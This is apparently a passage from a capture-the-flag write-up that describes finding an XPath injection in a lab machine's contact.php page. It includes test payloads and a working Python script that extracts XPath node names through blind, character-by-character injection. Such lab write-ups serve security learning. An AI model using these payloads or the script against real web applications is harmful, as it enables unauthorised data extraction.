Fastforward and I'm stuck. After chatting to *g0blin* I get a hint that the `contact.php` is
a key. I start attempting to inject stuff into the `id` field. Eventually I notice that I am
not looking at the same DB. The ids don't match with what I saw before when I dumped the DB.
This is a new data store. But what is it?
SQL wasn't getting me anywhere so I leafed through books and notes and figured it could be
XML. If it is, it will most likely be something like `...user/id=1]` Adding `][1` at the end will
return the first and only result, and we should get the email as per normal. 
Adding `[2` will error and return nothing as there should only be one result. If this works
I can be fairly certain that this is an XPath query.

{{< figure src="http://i.imgur.com/7jRrIo0.png" >}}

Excellent, it worked. Now I need to figure out how to make use of this. XPath isn't
something I've come across very often.

So I begin to experiment. First off I figured out if it's XPath V2 or XPath V1.
If entering `id=1 or count(//*)][1` doesn't work, but `id=1 lower-case('A')][1` does,
then it's XPath V2, otherwise it's XPath V1.

While I played around with this something clicked in my head and I groked enough of XPi
(XPath injection) to get to the bottom of this. Using the truth from above we can
determine the xpath names using the `substring` function. I wrote another python
script to do the heavy lifting

{{< highlight python >}}
import requests
import string
import sys


path = ''
if len(sys.argv) > 1:
    path = sys.argv[1]

URL = 'http://signal8.darknet.com/contact.php'
payload_tpl = "1 and substring(name(%s),%d,1)='%s'][1"

name = ''
cmp_pos = 1
carry_on = True

while carry_on:

    carry_on = False
    print name
    for c in string.ascii_letters:
        payload = {'id': payload_tpl % (path,cmp_pos,c)}

        r = requests.get(URL, params=payload)
        if r.text.find('errorlevel') != -1:
            name += c
            carry_on = True
            break

    cmp_pos += 1

print 'Path name:', name
{{< / highlight >}}
